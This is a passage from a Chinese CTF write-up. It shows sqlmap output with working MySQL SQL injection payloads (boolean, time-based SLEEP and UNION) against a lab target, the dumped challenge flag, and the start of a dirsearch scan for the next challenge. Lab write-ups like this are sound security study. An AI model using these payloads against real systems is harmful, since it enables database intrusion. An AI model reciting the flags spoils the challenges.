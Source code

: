 ```bash
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 5975=5975 AND 'OwTY'='OwTY

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 9341 FROM (SELECT(SLEEP(5)))ejmq) AND 'mlWM'='mlWM

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=-5185' UNION ALL SELECT NULL,NULL,CONCAT(0x71766b7171,0x514f4844786a687267776b504557574e487759506c79594248626342486779595a766c64674a7863,0x71717a7071)-- -
---
[09:26:33] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.5.9
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[09:26:33] [INFO] fetching entries of column(s) 'fllllag' for table 'fl4g' in database 'note'
Database: note
Table: fl4g
[1 entry]
+---------------------------------+
| fllllag                         |
+---------------------------------+
| n1book{union_select_is_so_cool} |
+---------------------------------+

[09:26:34] [INFO] table 'note.fl4g' dumped to CSV file '/home/tyd/.local/share/sqlmap/output/1254-b717b966-a0b5-43fe-b410-f15797bb4381.do-not-trust.hacking.run/dump/note/fl4g.csv'                                 
[09:26:34] [INFO] fetched data logged to text files under '/home/tyd/.local/share/sqlmap/output/1254-b717b966-a0b5-43fe-b410-f15797bb4381.do-not-trust.hacking.run'                                                 

[*] ending @ 09:26:34 /2022-08-17/
```

提交`n1book{union_select_is_so_cool}`即可。

------

### [afr_1](https://ce.pwnthebox.com/challenges?type=6&page=1&id=283)

使用`dirsearch`扫描靶机目录，发现`flag.php`，直接访问得到回显`no no no`。

```bash
┌──(tyd㉿kali-linux)-[~]
└─$ dirsearch -u https://1254-f911ecc1-794c-450b-88b5-3ea1109f3b20.do-not-trust.hacking.run         

  _|. _ _  _  _  _ _|_    v0.4.2                                                                          
 (_||| _) (/_(_|| (_| )                                                                                   
                                                                                                          
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/tyd/.dirsearch/reports/1254-f911ecc1-794c-450b-88b5-3ea1109f3b20.do-not-trust.hacking.run/_22-08-17_10-34-26.txt

Error Log: /home/tyd/.dirsearch/logs/errors-22-08-17_10-34-26.log

Target: https://1254-f911ecc1-794c-450b-88b5-3ea1109f3b20.do-not-trust.hacking.run/
```